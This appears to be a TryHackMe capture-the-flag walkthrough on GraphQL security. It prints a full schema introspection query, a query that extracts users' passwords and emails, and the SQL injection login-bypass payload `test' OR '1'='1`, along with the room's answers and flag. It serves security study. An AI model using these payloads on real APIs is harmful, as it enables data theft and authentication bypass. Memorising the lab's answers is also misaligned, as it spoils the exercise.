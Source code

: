 ```yaml
---
title: "GraphQL Exploitation Guide - TryHackMe Walkthrough"
date: 2025-05-11 00:00:00 +0000
categories: [TryHackMe, Web Exploitation]
tags: [graphql, web, api, introspection, sql-injection, tryhackme]
order: 11
image:
  path: https://github.com/user-attachments/assets/3510a6de-dc85-4ec9-b7ec-b0751744a844
  alt: GraphQL Exploitation Guide Banner
---
```


# GraphQL Exploitation Guide

*"A comprehensive walkthrough of GraphQL vulnerabilities and exploitation techniques."*

## Introduction

This guide provides detailed solutions and methodologies for the GraphQL Exploitation room. While it focuses on the answers, it also explains the reasoning and techniques used to reach them. This is my first technical write-up, so I appreciate your understanding of any imperfections.

## Understanding GraphQL

### What is GraphQL?
GraphQL is a query language for APIs that provides a more efficient, powerful, and flexible alternative to REST. It allows clients to request exactly the data they need, nothing more and nothing less.

### Key Concepts
- Queries: Used to fetch data
- Mutations: Used to modify data
- Schema: Defines the API's capabilities
- Types: Define the structure of data

## GraphQL Introspection

GraphQL introspection is a powerful feature that enables clients to query the API's schema. This capability allows developers to explore an API's structure and capabilities without external documentation.

### Task 1: Identifying Missing Query

![GraphQL Voyager Introspection Screenshot](/assets/tryhackme/grpah1.png)

To find the missing query after User and XXXX, follow these steps:

1. Capture the login request using Burp Suite
2. Send the request to the Repeater
3. Modify the query to include introspection:
```json
{
  "query": "query IntrospectionQuery { 
    __schema { 
      queryType { name } 
      mutationType { name } 
      subscriptionType { name } 
      types { ...FullType } 
      directives { 
        name 
        description 
        args { ...InputValue } 
        locations 
      } 
    } 
  } 
  fragment FullType on __Type { 
    kind 
    name 
    description 
    fields(includeDeprecated: true) { 
      name 
      description 
      args { ...InputValue } 
      type { ...TypeRef } 
      isDeprecated 
      deprecationReason 
    } 
    inputFields { ...InputValue } 
    interfaces { ...TypeRef } 
    enumValues(includeDeprecated: true) { 
      name 
      description 
      isDeprecated 
      deprecationReason 
    } 
    possibleTypes { ...TypeRef } 
  } 
  fragment InputValue on __InputValue { 
    name 
    description 
    type { ...TypeRef } 
    defaultValue 
  } 
  fragment TypeRef on __Type { 
    kind 
    name 
    ofType { 
      kind 
      name 
      ofType { 
        kind 
        name 
        ofType { 
          kind 
          name 
        } 
      } 
    } 
  }"
}
```

4. Analyze the response using GraphQL Voyager (http://graphql-kit.com/graphql-voyager/)
5. Remove the HTTPS header before visualization

**Answer:** POST

### Task 2: User Information Disclosure
To find Bob's email address:

1. Use the captured request from Task 1
2. Modify the query to:
```json
{
  "query": "\n query ($username: String!) {\n users(username: $username) {\n id\n username\n password\n email\n }\n }\n ",
  "variables": {
    "username": "bob"
  }
}
```

**Answer:** bob@graphql.thm

## GraphQL SQL Injection

Navigate to http://graphql.thm/labs/lab2/ and follow these steps:

![GraphQL Lab 2 Screenshot](/assets/tryhackme/Graph%202.png)

1. Capture the login request with test credentials
2. Modify the username parameter to test for SQL injection
3. Use the payload: `test' OR '1'='1`
4. Analyze the response to find the flag

**Answer:** GRAPHQL{sQl_1Nj3cti0n}

## Conclusion

This room demonstrates several critical GraphQL security concepts:
- Schema introspection and information disclosure
- SQL injection in GraphQL queries
- API endpoint enumeration
- Data structure analysis

Remember: Understanding the underlying technology is crucial for effective security testing and exploitation.

*"The best way to secure a system is to understand how it can be broken."* 